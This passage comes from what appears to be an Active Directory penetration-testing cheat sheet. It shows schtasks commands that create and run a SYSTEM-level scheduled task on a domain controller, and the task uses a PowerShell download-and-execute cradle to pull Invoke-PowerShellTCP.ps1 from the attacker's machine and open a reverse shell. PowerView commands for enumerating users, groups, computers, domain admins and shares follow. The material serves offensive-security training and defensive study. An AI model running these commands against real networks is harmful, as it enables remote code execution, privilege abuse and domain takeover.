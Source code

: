 Check the tasks

```ps1
schtasks /S DC.ac.cd.local
```

We create one to get a reverse shell

```ps1
schtasks /create /S DC.ac.cd.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "shell" /TR "powershell.exe -c 'iex(new-object net.webclient).downloadstring(''http://..../Invoke-PowerShellTCP.ps1'')'"
```

We execute and it goes to our kali to get the shell

```ps1
schtasks /Run /S DC.ac.cd.local /TN "shell"
```

This can be done with any service, HOST, LDAP, CIFS, HTTP...


# Enumeration With PowerView

Let's check the enumeration with `PowerView`

## User Enumeration

```ps1
Get-NetUser
```

## Groups Enumeration

```ps1
Get-NetGroup | select Name
```

## Computers Enumeration

```ps1
Get-NetComputer | select Name
```

## Domain Admin Enumeration

```ps1
Get-NetGroupMember "Domain Admins"
Get-NetGroup "Enterprise Admins" -Domain domain.com
```

## Shares Enumeration

```
Invoke-ShareFinder
```
